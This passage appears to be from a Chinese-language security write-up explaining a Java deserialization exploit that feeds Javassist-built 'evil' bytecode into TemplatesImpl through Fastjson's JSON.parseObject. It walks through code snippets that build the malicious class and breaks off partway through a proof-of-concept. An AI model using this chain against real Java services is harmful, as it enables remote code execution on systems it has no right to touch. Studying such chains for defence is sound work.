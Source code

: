 > poc1类用来构造恶意字节码。ClassPool.getDefult()获取默认类池后，创建类Evil
>
> 设置要继承的类
>
> ```java
> pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
> ```
>
> 创建一个空的类初始化器（静态构造函数）
>
> ```java
> CtConstructor constructor = test.makeClassInitializer();
> ```
>
> 向构造函数里加入cmd，也就是exec函数
>
> ```java
> constructor.insertBefore(cmd);
> ```
>
> 设置加载AbstractTranslet类的搜索路径
>
> ```java
> clas.setSuperclass(pool.getCtClass(AbstractTranslet.class.getName())
> ```
>
> 将编译的类创建为`.class` 文件
>
> ```java
> test.writeFile("./");
> ```

- TemplatesImpl加载的字节码必须为AbstractTranslet子类，因为defineTransletClasses里会对传入类进行一次判断

```java
    for (int i = 0; i < classCount; i++) {
    _class[i] = loader.defineClass(_bytecodes[i]);
    final Class superClass = _class[i].getSuperclass();

    // Check if this is the main class
    // ABSTRACT_TRANSLET指com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet类
    if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
        _transletIndex = i;
    }
    else {
        _auxClasses.put(_class[i].getName(), _class[i]);
    }
```

构造好的Evil类转为字节码后base64就能传入`_bytecodes[]`了

> String PoC经过JSON.parseObject序列化后约为(因为设置不了私有属性的缘故，这里定义了一个setFieldValue方法模拟)：

> ```java
> public class Poc {
>      public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
>         Field field = obj.getClass().getDeclaredField(fieldName);
>         field.setAccessible(true);
>         field.set(obj, value);
>     }
> ​
>     public static void main(String[] args) throws Exception {
>         TemplatesImpl obj = new TemplatesImpl();
>         setFieldValue(obj, "_bytecodes", new byte[][] {evil});//evil为恶意字节码
>         setFieldValue(obj, "_name", "a.b");